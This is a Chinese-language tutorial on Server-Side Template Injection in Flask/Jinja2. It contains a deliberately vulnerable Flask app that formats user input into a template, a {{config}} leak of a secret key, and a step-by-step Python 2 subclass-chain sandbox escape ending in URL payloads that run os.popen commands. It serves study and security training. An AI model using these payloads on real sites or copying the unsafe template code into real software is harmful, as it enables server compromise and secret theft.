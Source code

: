 # SSTI(Server-Side Template Injection)

服务器接受了用户的输入，过滤不严谨，将用户输入作为web应用模板的一部分，但是在通过模板引擎进行渲染的过程中，执行了用户输入的恶意代码，造成命令执行

# 沙箱逃逸

在代码执行的环境下，脱离过滤和限制，最终拿到shell权限的过程。

# 模板引擎

为了使用户界面与业务数据分离而产生，可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档

# flask-jinja2

flask使用jinja2作为框架的模板系统。jinja2是基于python的模板引擎，支持Unicode，具有集成的沙箱执行环境。在jinja2中的三种语法

- 控制结构{% %}
- 变量取值{{ }}
- 注释{# #}

# 例子

name参数可控，并且格式化输出到模板中，再做渲染，通过python2运行

```python
from flask import Flask, templating
from flask import request
from flask import config
from flask import  render_template_string,render_template

app=Flask(__name__)
app.config['SECRET_KEY']="flag{SSTI_123}"#通过http://127.0.0.1:888/123?name={{config}}泄露
@app.route('/123')#设置目录
def app_index():
    template='''{%% block body %%} <div class="center-content error"><h1>hello</h1><h3>%s</h3></div>{%% endblock %%}''' %(request.args.get('name'))#创建模板
    #template.globals['os']=os #在模板环境中注册os模块,才能直接调用eval
    return render_template_string(template)#渲染

if __name__=='__main__':
    app.run(host='0.0.0.0',port=888)#设置ip和端口
```

由于沙箱原因不能直接eval执行命令，寻找payload攻击链，进入python2

1. 找到元组的所属类`().__class__`
2. 找到基类`().__class__.__bases__`
3. 查看子类`().__class__.__bases__[0].__subclasses__()`
4. 查看`site._Printer`子类`().__class__.__bases__[0].__subclasses__()[72]`
5. 以字典的形式在`site._Printer`查找注册的模块`().__class__.__bases__[0].__subclasses__()[72].__init__.__globals__`
6. 最后一个存在os模块，可以利用

```
().__class__.__bases__[0].__subclasses__()[72].__init__.__globals__['os'].popen('notepad').read()
```

最后通过访问`http://127.0.0.1:888/123?name={{().__class__.__bases__[0].__subclasses__()[72].__init__.__globals__['os'].popen('whoami').read()}}`执行命令


